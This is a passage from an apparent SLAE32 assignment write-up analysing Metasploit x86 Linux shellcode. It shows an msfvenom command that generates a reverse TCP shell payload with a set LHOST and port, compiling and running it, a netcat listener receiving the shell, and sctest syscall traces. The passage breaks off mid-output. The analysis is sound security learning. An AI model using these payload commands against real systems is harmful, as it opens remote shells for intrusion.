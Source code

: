 After the `push`, the stack looks like this:
```
0xbffff58e│+0x0000: 0xbffff59e  →  "/bin/sh"     ← $esp
0xbffff592│+0x0004: 0xbffff5a6  →  0x0000632d ("-c"?)
0xbffff596│+0x0008: 0x0804a05d  →  "/usr/bin/id"
```

The `argv[]` now contains : `["/bin/sh", "-c", "/usr/bin/id"]` and the `$ecx` register contains the memory adress of this array.

Finally, `execve` is called using the `int 0x80` instruction.

# Shellcode analysis #2: linux/x86/shell_reverse_tcp
---------------------------------------

The `linux/x86/shell_reverse_tcp` msfvenom payload connects back to a remote machine, executes a shell and redirects output to the socket. This type of payload is commonly used when a firewall restrict incoming connections but allow outbound connections.

The payload for this analysis was generated as follows:

```
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ msfvenom -p linux/x86/shell_reverse_tcp -f c -o shell_reverse_tcp_shellcode LHOST=172.23.10.37 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
Saved as: shell_reverse_tcp_shellcode
```

Compiling and verifying that the shellcode works:

```
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ gcc -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ ./shellcode
Size: 69 bytes.
[...]
slemire@slae:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [172.23.10.37] port 4444 [tcp/*] accepted (family 2, sport 53684)
id
uid=1000(slemire) gid=1000(slemire) groups=1000(slemire),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

With libemu's `sctest` utility, we can see that the shellcode executes the following functions:
- socket
- dup2 (duplicate stdin, stdout and stderr descriptors)
- connect
- execve

```
slemire@slae:~/slae32/assignment5/2_shell_reverse_tcp$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.23.10.37 LPORT=4444 | sctest -v -Ss 100000   
verbose = 1
[...]
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
```